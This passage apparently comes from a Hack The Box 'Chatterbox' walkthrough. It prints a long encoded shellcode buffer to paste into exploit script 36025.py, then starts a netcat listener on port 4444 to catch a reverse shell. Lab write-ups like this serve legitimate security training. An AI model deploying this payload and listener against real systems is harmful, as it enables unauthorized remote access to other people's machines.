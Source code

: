 ```bash
buf += b"\x4f\x34\x52\x55\x69\x54\x42\x38\x64\x4b\x71\x48"
buf += b"\x4c\x64\x49\x71\x48\x53\x50\x66\x72\x6b\x4a\x6c"
buf += b"\x70\x4b\x74\x4b\x30\x58\x4b\x6c\x69\x71\x76\x73"
buf += b"\x74\x4b\x6d\x34\x74\x4b\x59\x71\x38\x50\x43\x59"
buf += b"\x4d\x74\x4b\x74\x6f\x34\x71\x4b\x51\x4b\x63\x31"
buf += b"\x6e\x79\x50\x5a\x62\x31\x59\x6f\x39\x50\x4f\x6f"
buf += b"\x4f\x6f\x6f\x6a\x62\x6b\x6d\x42\x58\x6b\x62\x6d"
buf += b"\x61\x4d\x30\x68\x6c\x73\x30\x32\x6b\x50\x39\x70"
buf += b"\x73\x38\x43\x47\x34\x33\x30\x32\x51\x4f\x52\x34"
buf += b"\x52\x48\x4e\x6c\x54\x37\x6e\x46\x69\x77\x4b\x4f"
buf += b"\x59\x45\x75\x68\x64\x50\x69\x71\x59\x70\x79\x70"
buf += b"\x6f\x39\x79\x34\x4f\x64\x4e\x70\x70\x68\x6c\x69"
buf += b"\x53\x50\x32\x4b\x4d\x30\x6b\x4f\x39\x45\x50\x50"
buf += b"\x30\x50\x50\x50\x70\x50\x51\x30\x52\x30\x6d\x70"
buf += b"\x50\x50\x33\x38\x67\x7a\x5a\x6f\x39\x4f\x77\x70"
buf += b"\x69\x6f\x6a\x35\x52\x77\x62\x4a\x69\x75\x71\x58"
buf += b"\x4c\x4a\x79\x7a\x5a\x6e\x31\x37\x72\x48\x4a\x62"
buf += b"\x4d\x30\x4c\x51\x6f\x6c\x34\x49\x39\x56\x71\x5a"
buf += b"\x7a\x70\x51\x46\x71\x47\x72\x48\x75\x49\x46\x45"
buf += b"\x44\x34\x61\x51\x69\x6f\x76\x75\x32\x65\x69\x30"
buf += b"\x73\x44\x5a\x6c\x69\x6f\x30\x4e\x59\x78\x30\x75"
buf += b"\x6a\x4c\x73\x38\x6c\x30\x75\x65\x75\x52\x52\x36"
buf += b"\x49\x6f\x6a\x35\x51\x58\x32\x43\x52\x4d\x61\x54"
buf += b"\x79\x70\x75\x39\x68\x63\x4e\x77\x6f\x67\x61\x47"
buf += b"\x4e\x51\x6b\x46\x4f\x7a\x4c\x52\x6e\x79\x32\x36"
buf += b"\x49\x52\x59\x6d\x62\x46\x48\x47\x4e\x64\x6f\x34"
buf += b"\x4f\x4c\x4d\x31\x4a\x61\x52\x6d\x51\x34\x4f\x34"
buf += b"\x4c\x50\x46\x66\x59\x70\x6d\x74\x62\x34\x30\x50"
buf += b"\x32\x36\x32\x36\x70\x56\x4f\x56\x4e\x76\x30\x4e"
buf += b"\x52\x36\x70\x56\x70\x53\x51\x46\x61\x58\x74\x39"
buf += b"\x48\x4c\x6f\x4f\x53\x56\x4b\x4f\x76\x75\x44\x49"
buf += b"\x49\x50\x50\x4e\x30\x56\x30\x46\x4b\x4f\x4c\x70"
buf += b"\x32\x48\x5a\x68\x33\x57\x4b\x6d\x31\x50\x39\x6f"
buf += b"\x69\x45\x37\x4b\x78\x70\x66\x55\x66\x42\x71\x46"
buf += b"\x61\x58\x77\x36\x73\x65\x45\x6d\x53\x6d\x49\x6f"
buf += b"\x5a\x35\x6d\x6c\x4b\x56\x53\x4c\x79\x7a\x63\x50"
buf += b"\x6b\x4b\x69\x50\x71\x65\x6b\x55\x57\x4b\x50\x47"
buf += b"\x6c\x53\x72\x52\x70\x6f\x32\x4a\x79\x70\x72\x33"
buf += b"\x4b\x4f\x4a\x35\x41\x41"
```
We should copy the generated payload into the exploit code.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Chatterbox]
└─$ code 36025.py 
┏━(Message from Kali developers)
┃ code is not the binary you may be expecting.
┃ You are looking for \"code-oss\"
┃ Starting code-oss for you...
┗━
```
Since the exploit is ready we need to start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB]
└─$ rlwrap nc -lvp 4444
listening on [any] 4444 ...


```
